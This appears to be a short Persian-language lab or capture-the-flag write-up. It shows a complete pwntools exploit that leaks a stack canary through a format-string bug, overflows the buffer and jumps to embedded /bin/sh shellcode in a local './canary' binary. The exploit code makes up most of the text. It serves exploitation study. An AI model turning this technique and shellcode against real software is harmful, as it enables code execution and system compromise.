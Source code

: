 این قسمت به این صورت است که با استفاده از string format که در اختیار ما قرار داده شده است میتوانیم قسمت های مورد نیاز از مموری را بخوانیم، سپس با overflow کردن درست حافظه return address را عوض کنیم
مساله ای که اینجا داریم این است که کنری داریم و باید مقدار کنری قبل و بعد از اجرای تابع یکی باشد.

برای این مساله تعداد زیادی `%lx` گذاشته ایم تا آدرس کنری را بدست بیآوریم و سپس مقادیر rbp و return address را overflow میکنیم، و سعی میکنیم به ابتدای بافر که کد گرفتن شل قرار دارد اجرا شود.

```
from pwn import *


def get_bash():
    # context.update(arch='x86_64', os='linux')
    # return asm(shellcraft.sh())
    return b'\xf7\xe6\x50\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x48\x89\xe7\xb0\x3b\x0f\x05'


p = make_packer(64, endian='little', sign='unsigned')
sh = process(["./canary", '%016lx-' * 23])
res = sh.recvline().decode()
canary_value = int(res.strip().split("-")[-4], 16)
rbp_value = int(res.strip().split("-")[-3], 16)
ra_value = int(res.strip().split("-")[-2], 16)
print(res)
print(p(canary_value))
#   create and write input.txt

bash = get_bash()
amo = b"\x90" * (96 - len(bash)) + bash + b"\x90" * 8
print(hex(canary_value), hex(rbp_value), hex(rbp_value - 140))
amo = amo + p(canary_value) + p(rbp_value) + p(rbp_value - 140)
print(amo)

f = open("input.txt", "wb")
f.write(amo)
f.close()
# contine execution
print("--->", sh.recvline(timeout=1))
sh.send(b"1\n")
sh.interactive()
```

# Run with
```
python3 exp.py
```